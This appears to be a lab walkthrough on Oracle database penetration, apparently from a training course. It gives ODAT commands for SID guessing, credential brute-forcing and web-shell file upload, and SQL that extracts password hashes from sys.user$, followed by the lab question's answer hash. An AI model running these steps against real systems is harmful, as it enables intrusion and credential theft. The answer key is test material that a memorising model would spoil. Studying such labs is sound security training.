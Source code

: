 If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below: 
```
$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
SQLplus commands:
|Command|Description|
|-|-|
|`select table_name from all_tables;`|List all available tables in the current database.|
|`select * from user_role_privs;`|Show us the privileges of the current user.|
|`select name, password from sys.user$;`|Extract Password Hashes.|

### Oracle RDBMS - File Upload
Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:
|OS|Path|
|-|-|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|
```
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

## Questions
1. Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer. **Answer: E066D214D5421CCC**
   - `$ odat sidguesser -s <ip>` -> found `XE` as a valid SID.
   - `$ odat passwordguesser -s <ip> -d XE --acounts-file accounts/accounts.txt` -> Found valid credential: `scott/tiger`
   - `$ sqlplus scott/tiger@<ip> as sysdba` -> if the user running the command has the necessary operating system privileges (e.g., being part of the dba group on Linux/Unix or a local administrator on Windows), a password is not required to connect as SYSDBA.
   - `SQL> select password from sys.user$ where name='DBSNMP';` -> get the hashed password